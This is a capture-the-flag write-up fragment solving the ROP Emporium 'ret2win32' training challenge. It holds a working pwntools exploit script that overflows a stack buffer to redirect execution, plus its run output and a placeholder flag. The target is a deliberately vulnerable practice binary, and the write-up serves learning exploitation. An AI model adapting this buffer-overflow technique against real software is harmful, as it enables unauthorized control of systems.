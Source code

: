 ## Proof of Concept Exploit

### Basic Exploit (`exploit.py`)
```python
from pwn import *

# Set the context of the binary
elf = context.binary = ELF('./ret2win32')

# The process to interact with
p = process(elf.path)

# Address of the ret2win function
ret2win_addr = 0x0804862c

# The offset to the return address on the stack
offset = 44

# Craft the payload
# 1. Fill the buffer with junk data up to the return address
# 2. Overwrite the return address with the address of ret2win()
payload = b'A' * offset + p32(ret2win_addr)

# Send the payload
p.sendlineafter(b'> ', payload)

# Receive and print the flag
flag = p.recvall().decode()
print(flag)
```

### Execution Result
```bash
$ python3 exploit.py
[*] '/home/kali/pwn/ROP/ropemporium/ret2win/ret2win32'
    Arch:       i386-32-little
    RELRO:      Partial RELRO
    Stack:      No canary found
    NX:         NX enabled
    PIE:        No PIE (0x8048000)
    Stripped:   No
[+] Starting local process '/home/kali/pwn/ROP/ropemporium/ret2win/ret2win32': pid 230242
[+] Receiving all data: Done (73B)
[*] Process '/home/kali/pwn/ROP/ropemporium/ret2win/ret2win32' stopped with exit code -11 (SIGSEGV) (pid 230242)
Thank you!
Well done! Here's your flag:
ROPE{a_placeholder_32byte_flag!}
```

## Key Learning Points

